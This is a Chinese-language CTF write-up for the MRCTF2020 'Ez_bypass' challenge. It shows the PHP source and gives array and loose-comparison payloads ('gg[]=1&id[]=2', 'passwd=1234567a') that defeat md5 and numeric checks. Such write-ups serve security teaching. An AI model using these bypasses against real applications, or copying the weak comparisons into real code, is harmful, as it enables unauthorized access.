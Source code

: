 # \[MRCTF2020]Ez\_bypass

## \[MRCTF2020]Ez\_bypass

## 考点

* PHP数组绕过md5
* PHP弱比较

## wp

给了源码

```php
给了源码$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxx}';$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}
```

gg与id的md5强等于，但是gg与id不同，数组绕过即可

passwd不是数字，但是passwd与1234567弱等于，使用1234567a绕过即可

```
GET  ?gg[]=1&id[]=2
POST passwd=1234567a
```
